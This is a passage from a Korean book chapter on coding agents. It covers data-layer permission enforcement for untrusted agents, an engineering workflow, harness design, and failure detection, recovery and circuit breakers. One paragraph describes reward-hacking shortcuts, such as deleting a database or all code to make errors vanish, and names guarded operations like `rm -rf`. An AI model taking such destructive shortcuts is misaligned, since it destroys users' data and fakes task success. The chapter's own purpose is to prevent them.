앞의 충성도 수칙은 Agent가 규칙을 지킬 **가능성을 높이지만**, 위험한 데이터 작업에는 ‘가능성이 높다’만으로 충분하지 않다. ‘Agent가 바르게 행동하기를 기대하는’ 데서 데이터 계층의 강제 집행으로 제약을 내려야 한다. 더 근본적인 입장[^ch5-2]은 **애플리케이션 계층을 아예 신뢰할 수 없다고 보고 데이터 불변 조건을 그 아래에서 강제하는 것**이다. 지난 30년간 소프트웨어의 무결성 경계는 **애플리케이션 계층**에 있었다. 누가 어떤 작업을 할 수 있고 어떤 값이 적법한지 handler 코드가 결정하고 데이터베이스는 그 코드를 무조건 신뢰했다. 그러나 LLM이 생성한 handler는 사람이 습관적으로 넣는 권한·무결성 검사를 자주 빠뜨리고, 자율 Agent는 프로덕션 데이터를 직접 다루므로 이 전제가 깨졌다. 새로운 접근법인 권한 내장 데이터 객체(Permission-Embedded Data Objects)는 각 데이터 엔티티가 **사람이 검토한 schema** 안에 선언적 권한 규칙, 검증기, 결과 선언을 갖게 하고 런타임 파이프라인이 **모든 쓰기 작업**에서 이를 강제하게 한다. 핵심 원시 요소는 각 작업에 붙는 **접근 컨텍스트**(access context)다. 다시 생성된 handler는 자신이 서비스하는 사용자의 권한으로 실행되고 자율 Agent는 자신만의 제한된 신원(scoped principal)으로 실행된다. Agent가 충성하기를 기대하기만 하는 대신 아키텍처 차원에서 권한이 제한된 주체로 격하해 회유되더라도 경계를 넘지 못하게 하는 것이다.

같은 프롬프트 묶음으로 여러 주류 해법과 비교했을 때 이 메커니즘에서는 **선언한 불변 조건을 위반한 쓰기 작업이 한 건도 없었다.** 반면 원시 SQL, LLM이 작성한 검사, 헌법식 프롬프트, 작업 경계 인터셉터는 각각 적게는 몇 건에서 많게는 수십 건의 위반을 통과시켰다. 쓰기 작업마다 약 2밀리초의 비용만 추가하면서 ‘맞을 가능성이 더 높다’가 아니라 ‘틀릴 수 없다’를 달성했다. 물론 이 보장은 조건부다. schema가 원하는 불변 조건을 빠짐없이 표현해야 하고, 신뢰할 수 없는 계층이 스토리지를 우회해 데이터베이스에 직접 연결하는 모든 경로를 배포 단계에서 차단해야 한다. Coding Agent에는 여기서 중요한 아키텍처 원칙이 나온다. **코드를 쓰는 주체와 실행하는 주체를 모두 신뢰할 수 없다면 진정으로 믿을 수 있는 제약은 생성된 코드 안이 아니라 그 아래의, 사람이 검토한 기반에 놓여야 한다.** 이는 1장의 ‘안내보다 제약 우선’ 원칙을 데이터 계층에서 궁극적으로 구현한 형태다.

[^ch5-2]: ‘신뢰 경계를 애플리케이션 계층 아래로 내리는’ 이 설계와 평가(해법별 위반 횟수의 전체 비교 포함)는 Li, Bojie. *The Application Layer Is No Longer Trusted: Enforcing Data Invariants Below AI-Written Code and AI Agents.* 2026(출간 예정)을 참고하라.

### Coding Agent의 전체 작업 흐름



다음은 소프트웨어 엔지니어링 모범 사례를 Agent에 투영한 **권장 엔지니어링 작업 흐름**으로, 이상적인 형태를 그린다. Claude Code나 OpenClaw 같은 실제 Coding Agent는 반응적이고 반복적인 루프로 작업하며 **필요에 따라 이 흐름을 줄이는** 경우가 더 많다. 간단한 작업에서는 설계 문서를 생략하고 단계마다 사용자 승인을 기다리지 않는다. 작업이 복잡하고 영향 범위가 넓을 때만 모든 단계를 빠짐없이 수행한다.

**프로젝트 문서화.**

Coding Agent의 작업은 프로젝트를 체계적으로 이해하는 데서 시작한다. Agent가 코드 저장소를 처음 접했을 때 가장 먼저 할 일은 코드를 수정하는 것이 아니라 프로젝트 전체의 인지 틀을 만드는 것이다. 신입 엔지니어가 첫날부터 코드를 push하지 않고 먼저 전반적인 상황을 파악하는 것과 같다. Agent는 README, 아키텍처 설계 문서, 개발자 가이드 같은 프로젝트 문서가 있는지 먼저 확인한다.

핵심 문서가 없다면 Agent는 맹목적으로 작업을 시작하지 말고 능동적으로 문서화 책임을 맡아야 한다. 코드베이스를 체계적으로 읽고 주요 모듈, 핵심 추상화, 구성 요소 사이의 의존성을 파악해 아키텍처 개요, 디렉터리 구조, 테스트 실행 가이드가 담긴 초기 문서를 만든다. 이 문서는 이후 Agent 작업의 청사진이자 다른 개발자의 진입점이 된다. 여기에는 ‘지식의 외부화는 효율적인 협업의 전제 조건’이라는 핵심 원칙이 담겨 있다.

이제 프로젝트 문서에는 Agent에 특화된 형태인 **프로젝트 지시 파일**이 있다. CLAUDE.md, AGENTS.md, .cursorrules 같은 파일은 사실상의 업계 표준이 되었다. 매 세션을 시작할 때 자동으로 컨텍스트에 주입되어 프로젝트 수준의 시스템 프롬프트 역할을 한다. 사람을 위한 README와 달리 지시 파일에는 빌드·테스트 명령(‘`npm test` 대신 `pnpm test` 사용’), 코드 스타일(‘any 타입 금지’), 명확한 제한 구역(‘`migrations/` 디렉터리 수정 금지’) 등 Agent의 행동 규칙을 담는다. 이는 OpenClaw의 `SOUL.md`(Agent의 정체성과 행동 규칙 정의), `MEMORY.md`(세션을 넘는 경험 축적)와 같은 생각을 서로 다른 수준에 적용한 것이다. SOUL.md는 ‘Agent가 누구인가’를 정의하고 프로젝트 지시 파일은 ‘이 프로젝트에서 어떻게 일할 것인가’를 정의한다. 2장의 컨텍스트 엔지니어링 관점에서 지시 파일은 가장 경제적인 안정 접두사이기도 하다. 내용이 작업에 따라 바뀌지 않아 자연스럽게 KV Cache에 유리하며, ‘지식은 코드베이스 자체에 존재해야 한다’라는 원칙을 가장 직접적으로 구현한다.

지식 외부화 원칙에는 흥미로운 귀결도 있다. **원격 근무에 친화적인 팀은 AI Agent에도 친화적인 경우가 많다.** 원격 팀은 비동기 커뮤니케이션과 문서화에 의존할 수밖에 없다. 결정은 문서에 기록되고 컨텍스트는 Issue와 PR 설명에 남으며, 조직 내부의 암묵지는 옆자리의 구두 설명이나 회의실 화이트보드가 아니라 개발자 가이드에 축적된다. 이는 정확히 Agent가 소비할 수 있는 지식 형식이다. Agent는 구두 합의를 읽을 수 없지만 설계 문서는 읽을 수 있다. 반대로 ‘옆 사람에게 물어보면 된다’라는 방식으로 운영되는 팀은 Agent와 원격 신입 사원 모두에게 똑같이 높은 온보딩 비용을 부과한다. 팀의 ‘AI 준비도’를 가늠하는 간단한 대리 지표가 있다. 원격 신입 사원이 코드 저장소와 문서만으로 독립적으로 일할 수 있는가?

**작업 이해와 요구 사항 명확화.**

알려진 bug를 고치거나 함수 매개변수를 조정하는 일처럼 경계가 분명하고 영향 범위가 좁은 간단한 요구 사항이라면 Agent는 곧바로 구현 단계로 넘어갈 수 있다. 하지만 소프트웨어 개발 작업 대부분은 그렇게 간단하지 않다.

복잡한 요구 사항에서는 Agent가 더 신중하고 체계적으로 접근해야 한다. 복잡성은 여러 차원에서 생긴다. 사용자는 원하는 바를 알지만 정확히 표현하지 못해 요구 사항 자체가 모호할 수 있고, 서로 다른 절충을 지닌 여러 기술 해법이 있을 수 있으며, 여러 모듈을 수정해 기존 기능을 깨뜨릴 만큼 영향 범위가 넓을 수도 있다. Agent는 탐색적 조사로 경계를 명확히 하고 필요할 때 사용자와 능동적으로 대화해야 한다. 예를 들어 사용자가 ‘시스템 성능을 최적화하라’고 요청하면 먼저 최적화의 구체적 목표가 무엇인지(응답 시간 단축, 메모리 사용량 감소, 처리량 증가), 어떤 절충을 받아들일 수 있는지(코드 복잡도가 늘어도 되는가), 현재 병목이 어디인지 파악해야 한다. 요구 사항이 모호한 상태에서 코딩을 시작하면 대규모 재작업으로 이어지는 경우가 많다.

**설계 문서 작성.**

설계 문서는 추상적인 요구 사항을 구체적인 구현 계획으로 바꾸는 다리다. 어떤 모듈을 왜 수정하는가, 어떤 해법을 선택하며 상대적 장점은 무엇인가, 어떤 새 의존성이 필요한가, 시스템에 어떤 영향이 예상되는가라는 핵심 질문에 답해야 한다. 설계 문서 작성은 그 자체로 깊은 생각이다. 코딩에 큰 비용을 들이기 전에 개념 수준에서 해법의 타당성을 검증하도록 Agent에 강제하기 때문이다. 더 중요한 점은 설계 문서가 사람이 효율적으로 개입할 지점을 제공한다는 사실이다. 수백 줄의 코드를 검토하는 것보다 간결한 설계 문서를 검토하기가 훨씬 쉽다. Agent는 설계 문서를 완성하면 사용자에게 검토를 요청하고 승인을 받은 뒤 다음 단계로 넘어가야 한다.

**코드 구현과 테스트.**

설계 승인을 받으면 Agent는 프로젝트의 코드 규칙에 따라 구현하고, 기존 추상화와 도구를 재사용하며, 코드베이스를 건강하게 유지하는 데 필요하면 적정 수준의 리팩터링을 수행한다.

구현 직후에는 테스트 주도 품질 보증 단계로 들어간다. 새 기능이나 수정한 기능의 테스트 케이스를 작성해 정상 경로, 경계 조건, 오류 상황을 포괄한다. 테스트를 작성한 뒤 테스트 스위트를 실행한다. 테스트가 실패하면 사용자에게 실패 사실만 보고하지 말고 원인을 분석하고 문제를 찾아 모든 테스트가 통과할 때까지 코드를 수정해야 한다. 이 ‘테스트-수정’ 루프는 여러 번 반복될 수 있다. 이러한 자기 교정 역량이 Coding Agent를 코드 생성기에서 신뢰할 수 있는 엔지니어링 조력자로 끌어올린다.

테스트를 모두 통과해도 작업은 끝나지 않는다. 다음 단계는 코드 검토다. Agent는 자신이 만든 코드를 비판적으로 살펴본다. 읽기 쉽고 주석은 충분한가? 숨어 있는 성능 문제나 보안 취약점은 없는가? 프로젝트의 코드 스타일과 모범 사례를 따르는가? 코드를 직접 읽거나 linter를 실행하거나 전용 코드 검토 하위 Agent를 호출해 자기 검토를 수행할 수 있다. 검토에서 문제를 발견하면 결함이 있는 코드를 사용자에게 전달하지 말고 수정 단계로 돌아가 해결해야 한다.

**문서 동기화와 전달.**

새 모듈 도입, 모듈 간 의존성 변경, 핵심 추상화의 의미 변경처럼 코드가 아키텍처 수준에서 바뀌었다면 Agent는 아키텍처 문서도 함께 갱신해야 한다. 낡은 문서는 미래의 개발자를 잘못된 방향으로 이끌므로 문서가 없는 것보다 나쁘다. 중요한 변경 뒤에 문서를 자동으로 갱신하면 Agent는 프로젝트 지식 베이스의 완전성과 최신성을 유지하는 데 기여한다.

이 작업 흐름은 소프트웨어 엔지니어링의 핵심 원칙을 구현한다. 계획이 행동에 앞서고, 검증은 전 과정에서 이루어지며, 문서는 코드와 함께 진화한다.

### Coding Agent에서의 Harness 엔지니어링 실천

1장에서는 Harness 엔지니어링이라는 개념과 **Agent = 모델 + Harness** 공식을 소개했다. 여기서 Harness는 핵심 공식의 컨텍스트와 도구에 더해 제약·검증·교정 메커니즘까지 포함하며, 이 다섯 요소가 함께 1장에서 정의한 Harness를 이룬다. Coding Agent는 Harness 엔지니어링의 효과가 가장 큰 영역일 것이다. 코드 작성은 모든 Agent 작업 가운데 **검증 가능성이 가장 높고**, 제약·검증·교정에 기존 인프라를 모두 활용할 수 있기 때문이다. 이 절은 Coding Agent 상황의 구체적인 실천에 초점을 맞춘다.

시스템이 안정적으로 작동하는지는 모델의 강력함보다 Agent 주변 인프라의 견고함에 좌우되는 경우가 많다. 1장은 Harness를 **컨텍스트와 도구**(Agent가 행동하게 함), **제약·검증·교정**(Agent가 잘못된 행동을 하지 못하게 함)이라는 두 계층으로 나눴다. Coding Agent에서는 다음의 구체적인 엔지니어링 구성 요소로 바뀐다.

- **인수 기준선**: 무엇을 ‘완료’로 볼 것인가—테스트 스위트, CI 파이프라인(Continuous Integration Pipeline, 코드를 제출한 뒤 자동으로 실행하는 일련의 검사), 코드 검토 표준
- **실행 경계**: Agent가 무엇을 건드릴 수 있고 없는가—모듈 경계, 의존성 규칙, 권한 제어
- **피드백 신호**: 정확성에 대한 자동 판단—Linter(형식 오류와 잠재적 문제를 자동으로 찾는 코드 스타일 검사 도구) 출력, 테스트 결과, 타입 검사 오류
- **롤백 메커니즘**: 문제가 생겼을 때 어떻게 복구할 것인가—Git 버전 관리, 샌드박스 격리, 스냅숏 롤백

**Coding Agent가 Harness 엔지니어링에 특히 적합한 이유.**

목표의 명확성과 검증의 자동화라는 두 차원은 작업을 네 가지 상태로 나눈다. 목표가 명확하고 결과를 자동으로 검증할 수 있는 영역에서 Agent는 가장 뛰어나다. 목표가 명확해도 인수 여부를 사람이 직접 확인해야 하면 처리량은 사람의 검토 속도에 제한된다. 자동화된 피드백이 있어도 목표가 모호하면 시스템은 잘못된 방향으로 효율적으로 달린다. 둘 다 없으면 Agent가 거의 쓸모없다. 표 5-1은 이 네 상태를 보여 준다. Harness의 목표는 가능한 한 많은 작업을 ‘명확한 목표 + 자동화된 검증’ 사분면으로 옮기는 것이다.

표 5-1 작업 명확성과 검증 자동화의 네 사분면

| | 결과를 자동으로 검증할 수 있음 | 결과를 사람이 검증해야 함 |
|---------|--------------------------------------------|------------------------------------------|
| **목표가 명확함** | 최적 영역: 테스트 케이스가 있는 bug 수정 | 처리량 제한: 코드 리팩터링에 사람의 검토 필요 |
| **목표가 모호함** | 효율적으로 엉뚱한 방향으로 감: linter로 ‘코드 품질’ 최적화 | 시작하기 어려움: ‘UI를 더 보기 좋게 만들어라’ |

코드 작성은 본래 이 사분면의 핵심에 놓인다. 테스트 스위트가 명확한 인수 기준을 제공하고, linter와 타입 검사기는 즉각적인 자동 검증을 제공하며, Git은 완벽한 버전 관리와 롤백 역량을 제공한다. 현재 Coding Agent가 모든 Agent 유형 가운데 가장 성숙한 이유도 여기에 있다. 코드 생성 모델이 특별히 강력해서가 아니라 수십 년 동안 쌓은 소프트웨어 엔지니어링 인프라가 자연스럽게 견고한 Harness를 이루기 때문이다.

**업계 실천.**

다음 세 가지 Harness 실천 사례는 앞의 원칙을 뒷받침한다.

- **대규모 코드 마이그레이션 사례**(한 대형 기술 기업이 공개한 대규모 코드 마이그레이션 실천): 핵심은 모델의 강력함이 아니라 Harness가 세 가지를 제대로 수행한 데 있다. 지식은 코드베이스 자체에 있어야 하고(Agent가 볼 수 없는 것은 존재하지 않는다), 제약은 문서가 아니라 linter와 CI로 코드화하며, 검증과 교정은 처음부터 끝까지 자동화해야 한다.
- **LangChain**: Harness(시스템 프롬프트, 도구 middleware, 자기 검증 루프)만 최적화해 벤치마크 작업 성능을 크게 높였다. 특히 ‘Agent로 실패 궤적을 분석해 Harness를 개선하는’ 방법론은 Harness 엔지니어링을 경험 중심에서 데이터 중심으로 전환했다는 점에서 주목할 만하다.
- **Anthropic**: 장기 작업을 두 역할로 나눈다. 초기화 Agent는 큰 작업을 작업 목록으로 분해하고, 실행 Agent는 단계별로 진행하면서 완성한 코드 파일과 갱신한 작업 목록 같은 중간 결과를 남겨 다음 라운드가 이어서 사용할 수 있게 한다. 이 분업은 장시간 실행하는 Agent가 ‘한 번에 너무 많은 일을 하려 하거나’ ‘성급하게 완료했다고 선언하는’ 문제를 해결한다.

**Coding Agent에서 범용 Harness 설계 원칙으로.**

Coding Agent의 Harness 실천에서는 모든 Agent 시스템으로 옮길 수 있는 설계 원칙이 나온다.

1. **안내보다 제약 우선**: 코드로 강제할 수 있는 규칙은 문서로 권고하지 말아야 한다. linter 규칙, 타입 제약, CI 검사는 시스템 프롬프트의 ‘…을 준수하세요’ 같은 안내보다 훨씬 가치가 크다. 전자는 ‘할 수 없음’이고 후자는 ‘하지 않기를 권함’에 불과하다.
2. **검증 자동화**: 사람의 검토는 확장할 수 없는 병목이다. 테스트 스위트, 코드 품질 검사, 행동 모니터링에 투자하면 사람의 노력을 더 투입하는 것보다 훨씬 높은 수익을 얻는다.
3. **피드백은 최대한 빠르고 구조화해야 한다**: 오류 메시지가 자세하고 오류 발생 시점과 가까울수록 Agent의 교정 효율이 높다. 2장의 Agent 상태 표시줄 기법(자세한 오류 메시지, 도구 호출 카운터)이 이 원칙을 구현한다.
4. **롤백은 신뢰할 수 있어야 한다**: Agent가 안전망 안에 있어야 과감하게 실험할 수 있다. Git 브랜치, 샌드박스 환경, 스냅숏 메커니즘은 모든 오류를 되돌릴 수 있게 한다.

**제약의 더 깊은 목적: 과정 오류 방지.** 인수 기준선은 결과가 올바른지를, 실행 경계는 **과정**을 통제한다. 결과가 올바르더라도 잘못된 방법을 정당화하지는 못한다. 데이터베이스 장애를 ‘고치겠다’며 데이터베이스를 지우고 다시 만들면 장애는 사라지지만 데이터도 사라진다. 컴파일 오류를 고치겠다며 코드를 모두 삭제하면 컴파일은 통과하지만 구현도 사라진다. 이런 파괴적인 지름길은 언제나 존재한다. 최종 평가 지표에 제한을 써 두어도 Agent가 우회 방법을 찾는 경우가 많다. 이는 7장에서 다룰 보상 해킹(reward hacking)이 Agent 작업에서 일상적으로 나타나는 형태다. 따라서 프로덕션 Harness는 `rm -rf`, 프로덕션 데이터 삭제, 읽지 않은 파일 덮어쓰기 같은 위험 작업에 전용 검사와 승인 절차를 두어 결과뿐 아니라 **행동**을 제약한다(이 장 보안 절의 의미 분석, 4장의 Sidecar 검토). 7장의 RLVP(Reinforcement Learning with Verified Penalty, ‘결과에는 보상을 주고 경로에는 벌점을 부여한다’)는 학습 측면에서 같은 질문에 답한다. 최종 결과 보상 외에 경로에서 검증 가능한 위반에 벌점을 주어 ‘파괴적인 수단을 쓰지 않는다’를 모델의 엔지니어링 상식으로 내재화한다. 기존 모델에는 Harness 가드레일이 외부 제약이고, 학습 가능한 모델에는 과정 벌점이 내재화 수단이다. 목표는 같다.

**도구 오케스트레이션: 오류 경계 제어.** 성숙한 Coding Agent는 병렬 도구 호출을 지원한다. Harness 관점에서 고유한 문제는 **오류가 전파되는 방식**이다. 한 도구가 실패하면 어떤 호출을 중단하고 어떤 호출을 계속해야 할까? 원칙은 오류가 같은 병렬 호출 묶음 안에서만 전파되고 상위 작업에는 전파되지 않게 하는 것이다. 예를 들어 파일 세 개를 동시에 읽다가 하나를 찾지 못하면 그 실패만 보고하고 나머지 두 호출은 취소하지 않아야 하며, 전체 작업은 더더욱 중단하지 않아야 한다. 이러한 세밀한 오류 경계 제어는 ‘명령 하나가 실패하면 전체 작업이 중단되는’ 취약한 패턴을 피한다. 병렬 호출, 스트리밍 파싱, 연쇄 중단의 구체적인 메커니즘은 이 장의 ‘구현 기법’ 절에서 자세히 다룬다.

### 장애와 오류 복구

앞 절에서는 Harness 엔지니어링의 원칙과 구성 요소를 설명했다. 이 절에서는 엔지니어링 성숙도를 가장 뚜렷이 가르는 **장애와 오류 복구**를 깊이 살펴본다. 1장의 제거 실험은 도구 결과 피드백 하나만 없어도 Agent가 무한 루프에 빠질 수 있음을 보여 주었다. 실제 프로덕션 환경의 장애는 어떤 실험보다 훨씬 다양하다. 이 절은 프로덕션 Harness가 어떤 장애를 마주하고, 어떻게 탐지하고 복구하며, 언제 시스템을 종료해야 하는가라는 세 질문에 체계적으로 답한다.[^ch5-3]

[^ch5-3]: 이 절의 장애 분류와 메커니즘 분석은 Claude Code 같은 프로덕션급 Agent 구현의 소스 코드 연구를 바탕으로 한다. 구체적인 구현은 버전에 따라 빠르게 진화하므로 여기서는 안정된 엔지니어링 원칙만 추렸다.

**장애 분류: 네 계층.** 체계적으로 대응하려면 먼저 분류해야 한다. 장애 발생 위치에 따라 네 계층으로 나눌 수 있다.

- **API 계층**: 속도 제한(HTTP 429), 서비스 과부하, 요청 시간 초과, 연결 끊김, token 한도에 따른 출력 잘림. 작업 자체와 무관한 인프라 잡음이다.
- **도구 계층**: 환각 호출(존재하지 않는 도구 호출), 잘못된 인수(도구의 입력 계약 위반), 실행 예외, 그리고 가장 위험한 유형인 ‘도구가 같은 오류를 반복해서 반환하는데 모델은 아무것도 바꾸지 않고 재시도하는 상황’.
- **컨텍스트 계층**: 컨텍스트 창 초과, 압축 실패, 손상된 궤적 구조(예: 도구 호출과 짝을 이루는 결과 메시지가 없음).
- **제어 흐름 계층**: 무한 루프(진전 없이 같은 작업 반복), 죽음의 소용돌이(오류로 실행된 복구 로직이 LLM을 호출하고 다시 실패하면서 연쇄적으로 번짐).

**탐지: 먼저 분류하고 다음으로 횟수를 센다.** 장애를 포착했을 때 첫 판단은 ‘재시도해야 하는가’가 아니라 ‘재시도할 가치가 있는가’다. 속도 제한, 과부하, 네트워크 불안정 같은 재시도 가능한 오류에는 재시도가 적합하다. 잘못된 인수, 권한 부족, 존재하지 않는 도구 같은 재시도 불가능한 오류는 그대로 몇 번을 재시도해도 같은 결과가 나오므로 입력이나 전략을 바꿔야 한다. 프로덕션 Harness는 모든 오류에 ‘재시도’를 적용하지 않고 오류 유형에서 복구 전략으로 이어지는 매핑을 유지한다.

개별 오류를 넘어 **패턴**도 탐지해야 한다. 첫째는 반복 호출 지문이다. ‘도구 이름 + 인수’ 쌍을 hash하고 같은 지문이 반복되면 진전 없는 루프라는 명확한 신호로 본다. 1장의 제거 실험에서 Agent가 같은 도구를 계속 호출한 것이 바로 이 패턴이다. 둘째는 연속 실패 카운터다. 각 복구 경로마다 별도의 카운터를 유지해 뒤에서 설명할 회로 차단기의 근거로 삼는다.

세 번째 장애 유형은 오류로 드러나지 않으므로 전용 **활성 상태와 무결성 모니터링**이 필요하다. 스트리밍 연결에서 가장 위험한 장애는 즉시 오류가 나는 연결 끊김이 아니라 조용한 멈춤이다. 연결은 유지되지만 데이터 흐름이 멈춰, 파이프는 연결되어 있는데 물이 나오지 않는 것과 같다. SDK의 시간 제한은 초기 연결에만 적용되고 전송 과정에는 적용되지 않는 경우가 많다. 따라서 프로덕션 Agent에는 별도의 유휴 감시 장치(watchdog timer)가 필요하다. 정해진 시간 동안 새 출력이 없으면 연결이 멈췄다고 판단해 정지된 스트림을 종료하고 재시도를 실행한다. 여기서 일반 원칙이 나온다. **수명이 긴 모든 연결에는 연결 시간 제한뿐 아니라 활성 상태 신호도 필요하다.** 무결성 모니터링은 궤적 구조를 대상으로 한다. 도구 호출과 짝을 이루는 결과 메시지가 없으면 그 구조적 이상을 모델이나 사용자에게 던지지 말고 컨텍스트에 주입하기 전에 짝을 복구한다. 눈여겨볼 엔지니어링 세부 사항도 있다. 일부 프로덕션 Agent는 프로덕션 모드와 학습 데이터 수집 모드를 함께 운영한다. 프로덕션 모드에서는 누락된 메시지를 자리표시자로 보완할 수 있지만, 학습 모드에서는 합성 자리표시자가 학습 데이터를 오염시키므로 복구하지 않는다. ‘프로덕션에서는 관대하고 학습에서는 엄격한’ 이중 기준은 Harness와 모델 학습이 깊이 결합되어 있음을 보여 준다.

**복구: 더 눈에 띄는 단계로 점진적으로 확대한다.** 복구 조치는 사용자에게 보이는 정도에 따라 단계가 나뉜다. 낮은 단계에서 해결되면 더 높은 단계로 넘어가지 않는다.

1. **조용한 재시도.** 재시도할 수 있는 오류의 기본 조치다. 성공 여부를 가르는 세부 사항이 두 가지 있다. 첫째, 여러 클라이언트가 동시에 재시도해 2차 혼잡을 일으키지 않도록 무작위 jitter를 더한 지수 백오프를 사용하되 서버가 제안한 대기 시간을 따른다. 둘째, 포그라운드 호출과 백그라운드 호출을 구분한다. 주 루프 요청이 실패하면 재시도하지만 제목 생성이나 입력 제안 같은 보조 백그라운드 호출은 실패하면 버린다. 백그라운드 재시도가 주 루프의 할당량을 잠식해 ‘재시도 증폭’을 일으키지 않게 해야 한다.
2. **성능을 낮춰 계속 진행.** 재시도에 실패하면 요청 자체를 바꿔 다시 시도한다. 길이 제한으로 생성이 잘리는 출력 잘림을 예로 들면, 먼저 출력 한도를 높여 조용히 다시 요청한다. 그래도 부족하면 메시지 끝에 메타 지시를 덧붙여 모델이 중단 지점부터 생성을 이어 가게 한다. 주 모델이 계속 과부하 상태면 폴백 모델로 낮춘다. 이때 이전 모델의 독점 형식 블록을 먼저 제거하지 않으면 새 모델이 대화 기록을 파싱하지 못한다. 고비용 모드에 속도 제한이 걸리면 일시적으로 표준 모드로 전환한다.
3. **사용자에게 표시.** 모든 자동 수단을 소진한 뒤에만 이미 시도한 복구 조치와 함께 오류를 보여 준다.

도구 계층 오류는 다른 경로를 따른다. **세션을 종료하지 말고 오류를 모델의 입력으로 바꾼다.** 환각 호출에는 구조화된 ‘그런 도구 없음’ 오류 결과를 반환하고, 검증 실패에는 입력 계약에 관한 힌트를 주석으로 붙인 오류를 반환하며, 잘못된 인수(객체가 있어야 할 자리에 문자열 출력)는 실행 전에 프로그램으로 복구한다. 이 오류들은 일반적인 도구 결과로 컨텍스트에 들어가고 모델은 다음 차례에 스스로 교정한다. 이는 앞에서 말한 ‘피드백은 구조화할수록 좋다’라는 원칙을 적용한 것이다. 되돌려 주는 오류가 구체적일수록 모델의 자기 교정률도 높아진다.

이 절의 핵심 원칙은 **오류 처리의 단위가 개별 요청이 아니라 전체 복구 루프**라는 것이다. 복구가 불가능하다고 확인되기 전에는 사용자든 이벤트를 구독하는 하위 시스템이든 소비자에게 중간 오류를 노출하지 않아야 한다. 복구 중에는 오류 메시지를 보류한다. 복구에 성공하면 소비자는 오류를 전혀 알아차리지 못한다. 모든 시도가 실패했을 때만 보류했던 오류를 내보낸다. 이는 1장의 교정 원칙인 ‘복구가 불가능하다고 확인하기 전에는 중간 상태를 노출하지 않는다’를 엔지니어링으로 구현한 것이다.

**종료: 모든 복구 경로에는 상한이 필요하다.** 복구 메커니즘 자체도 실패할 수 있으므로 모든 복구 경로에 명시적인 회로 차단 상한을 둬야 한다. 컨텍스트 압축은 몇 차례 연속 실패하면 포기하고, 권한 분류기는 반복 실패하면 사람에게 판단을 요청하며, 출력 이어 쓰기는 정해진 횟수까지만 시도한다. 임곗값은 어디에서 나올까? 추측이 아니라 프로덕션 데이터에서 나온다. Claude Code의 압축 회로 차단기를 예로 들면 ‘3회 연속 실패’라는 임곗값은 실제 세션 통계에 근거한다. 한 세션에서 이 복구 경로가 3천 회 넘게 연속 실패한 적이 있었고, 전 세계적으로 이런 무의미한 재시도만으로 하루 약 25만 건의 API 호출이 낭비되었다. 50회 넘게 연속 실패한 세션도 천 개가 넘었다. 3회는 ‘대부분의 장애는 그전에 복구된다’와 ‘더 재시도해도 사실상 가망이 없다’ 사이의 경험적 변곡점이다.

단일 지점의 회로 차단기보다 더 위험한 것은 **죽음의 소용돌이**다. 오류 경로에서 실행된 로직이 LLM을 호출하고 다시 실패하면서 연쇄적으로 번지는 상황이다. 실제 사례를 보자. Agent가 컨텍스트 초과 오류로 멈추면 stop hook(Agent 종료 시 자동으로 실행되는 정리 로직)이 작동해 ‘종료할 때 코드를 commit’하려 한다. hook은 commit 메시지를 작성하기 위해 LLM을 호출하고, 컨텍스트가 다시 넘치면서 hook이 또 작동한다. 방어는 두 부분으로 이루어진다. 오류 경로에서는 모델을 호출하는 모든 부작용을 비활성화한다. 자동 메모리 추출 같은 보조 기능 한 번을 잃는 편이 낫다. 그리고 재귀 깊이 카운터로 남은 연쇄 작용을 탐지하고 끊는다. 마지막으로 모든 자동 메커니즘 위에는 전역 종료·에스컬레이션 조건을 둔다. 최대 반복 수, 세션 예산 상한, 연속 실패가 임곗값을 넘었을 때 사람에게 에스컬레이션하는 조건이다. 4장의 거부 회로 차단기가 한 예다.

1장의 생각할 문제로 돌아가 보자. 도구 결과가 누락되는 상황 외에도 같은 오류를 반복하는 도구, 환각 호출, 핵심 상태를 잃어버리는 컨텍스트 압축, 해결할 수 없는 작업이 Agent를 루프에 빠뜨릴 수 있다. ‘오류 분류 + 패턴 인식’으로 탐지하고, ‘단계적 확대’로 복구하며, ‘회로 차단기 + 전역 상한 + 사람에게 에스컬레이션’으로 종료한다. 이것이 ‘Agent가 영원히 실행될 수 있다’라는 문제에 대한 Harness의 완전한 답이다. 이 메커니즘은 ‘모델 역량 부족’이 아니라 ‘경계 조건에서의 시스템 견고성’을 해결한다. 모델은 계속 강력해지겠지만 네트워크는 끊기고 프로세스는 멈추며 사용자는 예상 밖의 행동을 한다. 가장 근본적으로 말하면 **Agent의 신뢰성은 실수 여부가 아니라 모든 오류 유형에 대응하는 탐지·복구·종료 경로가 있는지로 결정된다.**

### Coding Agent의 구현 기법

앞에서 설명한 작업 흐름은 이상적인 형태다. 이를 실제로 작동시키려면 생각의 품질을 떨어뜨리지 않으면서 응답 속도를 높이고 컨텍스트 소비를 줄이는 몇 가지 구체적인 구현 기법이 필요하다. 2·4장의 범용 Agent 기법을 프로그래밍 영역에 적용한 것이다.

**병렬 도구 호출, 스트리밍 실행, 연쇄 중단.**

전통적인 Agent 구현은 도구 호출을 생성하고 실행해 결과를 받은 뒤 다음 단계를 결정하는 직렬 방식으로 작동하는 경우가 많다. 이처럼 엄격하게 줄을 세우면 많은 시간이 낭비된다.

